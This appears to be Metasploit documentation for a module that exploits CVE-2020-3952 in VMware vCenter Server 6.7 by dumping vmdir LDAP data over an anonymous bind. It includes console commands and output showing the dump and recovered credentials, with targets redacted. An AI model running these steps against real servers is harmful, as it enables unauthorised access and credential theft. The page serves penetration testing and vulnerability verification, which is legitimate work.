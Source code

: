 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump data from
the vmdir service in VMware vCenter Server version 6.7 prior to the
6.7U3f update, only if upgraded from a previous release line, such as
6.0 or 6.5.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/gather/vmware_vcenter_vmdir_ldap
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > options

Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   BASE_DN                   no        LDAP base DN if you already have it
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    389              yes       The target port
   SSL      false            no        Enable SSL on the LDAP connection


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > run
[*] Running module against [redacted]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:389
[+] [redacted]:389 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002613_default_[redacted]_VMwarevCenterS_939568.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) >
```
